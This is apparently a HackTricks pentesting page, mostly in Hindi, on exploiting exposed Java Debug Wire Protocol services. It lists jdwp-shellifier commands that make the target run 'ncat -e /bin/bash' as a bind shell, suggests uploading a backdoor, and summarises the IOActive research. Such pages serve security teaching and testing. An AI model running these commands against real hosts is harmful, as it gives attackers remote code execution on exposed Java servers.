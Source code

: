 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**कमजोरी मूल्यांकन और पेनिट्रेशन टेस्टिंग के लिए तुरंत उपलब्ध सेटअप**। कहीं से भी 20+ उपकरणों और सुविधाओं के साथ एक पूर्ण पेंटेस्ट चलाएं जो पुनः खोज से रिपोर्टिंग तक जाते हैं। हम पेंटेस्टर्स का स्थान नहीं लेते - हम उन्हें गहराई से खुदाई करने, शेल पॉप करने और मज़े करने के लिए कुछ समय वापस देने के लिए कस्टम उपकरण, पहचान और शोषण मॉड्यूल विकसित करते हैं।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Exploiting

JDWP शोषण **प्रोटोकॉल की प्रमाणीकरण और एन्क्रिप्शन की कमी** पर निर्भर करता है। यह सामान्यतः **पोर्ट 8000** पर पाया जाता है, लेकिन अन्य पोर्ट भी संभव हैं। प्रारंभिक कनेक्शन लक्ष्य पोर्ट पर "JDWP-Handshake" भेजकर किया जाता है। यदि एक JDWP सेवा सक्रिय है, तो यह उसी स्ट्रिंग के साथ प्रतिक्रिया करती है, इसकी उपस्थिति की पुष्टि करती है। यह हैंडशेक नेटवर्क पर JDWP सेवाओं की पहचान के लिए एक फिंगरप्रिंटिंग विधि के रूप में कार्य करता है।

प्रक्रिया पहचान के संदर्भ में, Java प्रक्रियाओं में "jdwk" स्ट्रिंग की खोज एक सक्रिय JDWP सत्र को इंगित कर सकती है।

उपयोग करने के लिए सबसे अच्छा उपकरण [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier) है। आप इसे विभिन्न पैरामीटर के साथ उपयोग कर सकते हैं:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

## More details

**यह [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/) का सारांश है।** आगे की जानकारी के लिए इसे देखें।

1. **JDWP Overview**:
- यह एक पैकेट-आधारित नेटवर्क बाइनरी प्रोटोकॉल है, जो मुख्य रूप से समकालिक है।
- इसमें प्रमाणीकरण और एन्क्रिप्शन की कमी है, जिससे यह शत्रुतापूर्ण नेटवर्क के सामने कमजोर हो जाता है।

2. **JDWP Handshake**:
- संचार शुरू करने के लिए एक सरल हैंडशेक प्रक्रिया का उपयोग किया जाता है। एक 14-चर ASCII स्ट्रिंग “JDWP-Handshake” डिबगर (क्लाइंट) और डिबगी (सर्वर) के बीच आदान-प्रदान की जाती है।

3. **JDWP Communication**:
- संदेशों की एक सरल संरचना होती है जिसमें Length, Id, Flag, और CommandSet जैसे फ़ील्ड होते हैं।
- CommandSet मान 0x40 से 0x80 के बीच होते हैं, जो विभिन्न क्रियाओं और घटनाओं का प्रतिनिधित्व करते हैं।

4. **Exploitation**:
- JDWP मनमाने वर्गों और बाइटकोड को लोड और लागू करने की अनुमति देता है, जो सुरक्षा जोखिम पैदा करता है।
- लेख में पांच चरणों में एक शोषण प्रक्रिया का विवरण दिया गया है, जिसमें Java Runtime संदर्भों को लाना, ब्रेकपॉइंट सेट करना, और विधियों को लागू करना शामिल है।

5. **Real-Life Exploitation**:
- संभावित फ़ायरवॉल सुरक्षा के बावजूद, JDWP सेवाएँ वास्तविक दुनिया के परिदृश्यों में खोजी और शोषित की जा सकती हैं, जैसा कि ShodanHQ और GitHub जैसे प्लेटफार्मों पर खोजों द्वारा प्रदर्शित किया गया है।
- शोषण स्क्रिप्ट को विभिन्न JDK संस्करणों के खिलाफ परीक्षण किया गया था और यह प्लेटफ़ॉर्म-स्वतंत्र है, जो विश्वसनीय Remote Code Execution (RCE) प्रदान करता है।

6. **Security Implications**:
- इंटरनेट पर खुले JDWP सेवाओं की उपस्थिति नियमित सुरक्षा समीक्षाओं की आवश्यकता को रेखांकित करती है, उत्पादन में डिबग कार्यक्षमताओं को बंद करना, और उचित फ़ायरवॉल कॉन्फ़िगरेशन।

### **References:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Instantly available setup for vulnerability assessment & penetration testing**. Run a full pentest from anywhere with 20+ tools & features that go from recon to reporting. We don't replace pentesters - we develop custom tools, detection & exploitation modules to give them back some time to dig deeper, pop shells, and have fun.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
